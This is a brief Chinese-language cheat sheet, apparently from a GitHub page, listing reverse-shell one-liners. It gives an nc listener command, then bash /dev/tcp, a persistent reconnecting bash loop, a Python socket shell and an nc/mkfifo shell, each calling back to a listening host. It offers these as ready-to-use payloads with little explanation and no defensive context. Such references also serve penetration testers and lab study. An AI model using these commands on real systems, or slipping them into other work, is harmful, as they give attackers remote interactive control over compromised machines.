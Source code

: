 

---



nc做反弹shell
https://xz.aliyun.com/t/2549
https://www.freebuf.com/articles/system/10632.html

用这个接住：

```
$ nc -l -p 2333 -vvv
```

## Bash



```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

反复连接：

```
$ while true; do bash -i >& /dev/tcp/127.0.0.1/2333 0>&1; sleep 10; done
```

## Python

```
$ python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## NC

```
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

